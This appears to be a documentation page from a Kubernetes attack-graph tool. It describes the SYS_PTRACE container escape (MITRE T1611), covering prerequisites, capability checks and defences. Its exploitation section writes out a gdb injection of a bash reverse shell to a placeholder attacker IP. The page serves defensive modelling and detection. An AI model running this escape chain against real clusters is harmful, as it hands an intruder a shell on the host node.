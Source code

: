 <!--
id: CE_SYS_PTRACE
name: "Container escape: attach to a host process through SYS_PTRACE"
mitreAttackTechnique: T1611 - Escape to host
mitreAttackTactic: TA0004 - Privilege escalation
-->

# CE_SYS_PTRACE

Given the requisite capabilities, abuse the legitimate OS debugging mechanisms to escape the container via attaching to a node process.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/CONTAINER.md) | [Node](../vertices/NODE.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

## Details

The `SYS_PTRACE` capability, which allows the use of `ptrace()`. This system call allows a process to monitor and control the execution of another process. 

## Prerequisites

To perform this attack, the container must be started with the option `--pid=host`, which enables the sharing of the PID address space between the container and the host operating system, allowing the container process to see every other process running on the host. And the container needs to be granted `SYS_PTRACE` and `SYS_ADMIN` capabilities. 

See the [example pod spec](../../test/setup/test-cluster/attacks/CE_SYS_PTRACE.yaml).

## Checks

From within a running container, determine whether it is running with the required capabilities:

```bash
# Check the current process' capabilities
cat /proc/self/status | grep CapEff
# CapEff:	00000000a80425fb

# Decode the capabilities (on current box or offline) and check for CAP_SYS_PTRACE and CAP_SYS_ADMIN
# NOTE: can install capsh via apt-get update && apt-get install libcap2-bin
capsh --decode=00000000a80425fb | grep cap_sys_admin
capsh --decode=00000000a80425fb | grep cap_sys_ptrace
```

## Exploitation

Install a debugger into the container:

```bash
apt update && apt install gdb
```
Find a host process to target:

```bash
ps -ef # select a PID
```

Attach to the process and inject a shell command:

```bash
gdb -p <PID>
call (void)system("bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1'")
```

## Defences

### Monitoring

+ Monitor for GDB (or other debugging tools) installation. 
+ Detect invocation of ptrace() from within a container.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with additional powerful capabilities.

### Least Privilege

Avoid running containers as the root user. Specify an unprivileged user account using the `securityContext`.

## Calculation

+ [EscapeSysPtrace](../../pkg/kubehound/graph/edge/escape_sys_ptrace.go)

## References:

+ [Container Escape: All You Need is Cap (Capabilities)](https://www.cybereason.com/blog/container-escape-all-you-need-is-cap-capabilities?hs_amp=true)

